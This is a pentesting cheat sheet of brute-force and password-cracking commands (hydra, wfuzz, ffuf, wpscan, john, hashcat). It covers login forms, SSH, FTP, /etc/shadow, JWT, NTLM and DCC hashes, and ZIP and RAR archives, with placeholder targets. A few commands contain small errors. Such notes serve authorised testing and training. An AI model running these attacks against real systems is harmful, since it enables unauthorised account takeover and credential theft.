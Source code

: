 ```yaml
---
title: 3 – Brute Force
summary: "Gaining Access step – a note for brute forcing passwords, login pages, archives, ..."
description: "Gaining Access step – a note for brute forcing passwords, login pages, archives, ..."
---
```


# Words Lists :

---

* <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt</font>
* <font color=lightblue>/usr/share/wordlists/metasploit/unix_passwords.txt</font>

# HTTP POST Login Page

---

### WFUZZ


 > 
 > **<font color=red>wfuzz -c -z file,</font>myWordList -u http://\[TARGET_IP\]:\[TARGET_PORT\]/login.php -d “username=<font color=red>FUZZ</font>&password=<font color=red>FUZZ</font>”</br>**
 > Fuzz POST Login.

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

---

### FUFF


 > 
 > **<font color=red>ffuf -w </font>myUsersFile.txt<font color=red>:W1,</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font><font color=red>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u</font> http://\[TARGET_IP\]/login <font color=red>-fc 200</font>**</br>
 > Brute Force HTTP POST form with valid username.

---

### WPSCAN (WordPress)


 > 
 > **<font color=red>wpscan --url </font>http://\[TARGET_IP\]/blog <font color=red>--usernames</font> admin <font color=red>--passwords</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Brute force WordPress user's credentials.

# HTTP Basic Access Auth

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red> http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

# SSH

---

### HYDRA


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red> ssh</font>**</br>
 > Brute Force SSH.

# SSH Private Key Passphrase

---

### JOHN


 > 
 > **<font color=red>/usr/share/john/ssh2john.py</font> private_key <font color=red>\></font> forjohn.txt**</br>
 > Prepare private key for John.
 > 
 > **<font color=red>john --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> forjohn.txt**</br>
 > Crack private key passphrase.

# FTP

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.

# Linux Unshadow

---

### JOHN


 > 
 > **<font color=red>unshadow /etc/passwd /etc/shadow ></font> unshadowd.txt**</br>
 > Prepare passwd and shadow file for John.
 > 
 > **<font color=red>john unshadow.txt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack user passwords.
 > 
 > **<font color=red>john --show</font> unshadow.txt**</br> 
 > Display cracked passwords.

# JWT

---

### JOHN


 > 
 > **<font color=red>john --format=HMAC-SHA512</font> jwt.txt <font color=red>--show</font>**</br>
 > Crack JWT secret.

### JWT-CRACKER



### JWT_TOOL



# MD5

---

### JOHN


 > 
 > **<font color=red>john --format=md5crypt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt**</br>
 > Crack MD5 hash.

# NTLM

---

### JOHN


 > 
 > **<font color=red>john --format=NT -w=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt <font color=red>--pot=</font>output.txt**</br>
 > Crack NTLM Hash.

# DCC

---

### HASHCAT


 > 
 > **<font color=red>hashcat -a 0 -m 1100 0 '</font>15a57c379ebdfea572ad1ff91eb6ef0c:Administrator<font color=red>'</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack DCC (Domain Cached Credentials) hash.

# ZIP

---

### JOHN


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forjohn.txt**</br>
 > Prepare ZIP archive for John.

 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack ZIP archive password.

---

### HASHCAT


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forhashcat.txt**</br>
 > Remove name of the file and archive from the hash (at the beginning and the end).

 > 
 > **<font color=red>hashcat -a -m 13600</font> forhashcat.txt <font color=lightblue>/usr/share/wordslist/rockyou.txt</font>**</br>
 > Crack ZIP archive password.

---

### FCRACKZIP



# RAR

---

### JOHN


 > 
 > **<font color=red>rar2john</font> myFile.rar <font color=red>\></font> forjohn.txt**</br>
 > Prepare RAR archive for John.
 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack RAR archive password.
